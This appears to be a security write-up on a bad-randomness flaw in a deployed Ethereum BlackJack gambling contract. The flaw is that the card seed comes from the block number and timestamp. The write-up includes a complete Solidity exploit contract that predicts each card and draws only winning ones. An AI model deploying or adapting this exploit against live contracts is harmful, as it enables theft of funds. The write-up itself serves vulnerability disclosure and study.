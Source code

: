 BlackJack
=======
https://etherscan.io/address/0xa65d59708838581520511d98fb8b5d1f76a96cad#code


Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for BlackJack, an Ethereum gambling game, acting as the dealer and play black jack game with users. The developer wrote a `deal()` function that uses block number and timestamp as the seed to determine which card will be drawn next. This can be predicted by writing the same random function code in an exploit contract to determine the card which will be drawn, thus the attacker will never lose.

Related code
------
    library Deck {
	    function deal(address player, uint8 cardNumber) internal returns (uint8) {
		    uint b = block.number;
		    uint timestamp = block.timestamp;
		    return uint8(uint256(keccak256(block.blockhash(b), player, cardNumber, timestamp)) % 52);
	    }
    ......
    }
    
      // deals one more card to the player
	    function hit() public gameIsGoingOn {
		    uint8 nextCard = games[msg.sender].cardsDealt;
		    games[msg.sender].playerCards.push(Deck.deal(msg.sender, nextCard));
		    games[msg.sender].cardsDealt = nextCard + 1;
		    Deal(true, games[msg.sender].playerCards[games[msg.sender].playerCards.length - 1]);
		    checkGameResult(games[msg.sender], false);
	    }

Details
------
After the game starts, you will get two cards. At this point, if the number of points is less than 21, you can choose to call hit() to continue the draw. 
The number of points for the next card is determined by `block.number` and `timestamp`, so attacker can definitely always pick the card he wants.

Exploit
------
    contract Exploit{
    
        BlackJack target;
        address owner;

        function Exploit(address _target) payable{
            target = BlackJack(_target);
            owner = msg.sender;
        }
    
        function deal(address player, uint8 cardNumber) returns (uint8) {
		      uint b = block.number;
		      uint timestamp = block.timestamp;
		      return uint8(uint256(keccak256(block.blockhash(b), player, cardNumber, timestamp)) % 52);
	      }
    
        function go_deal(uint256 _amount) public{
          target.deal.value(_amount)();
        }
    
        //@para card_num is the number you want for next card
        //@para cardsDealt is how many card you already have
        //@dev after you reaching 21 points, target will automaticly transfer the price to you
        function attack(uint256 card_num, uint256 cardsDealt) public payable{
            if(deal(this.address, cardsDealt) == card_num){
                target.hit();
            }
        }
        
        function kill() public{
          require(msg.sender == owner);
          msg.sender.send(this.balance);
        }
        
        
    }

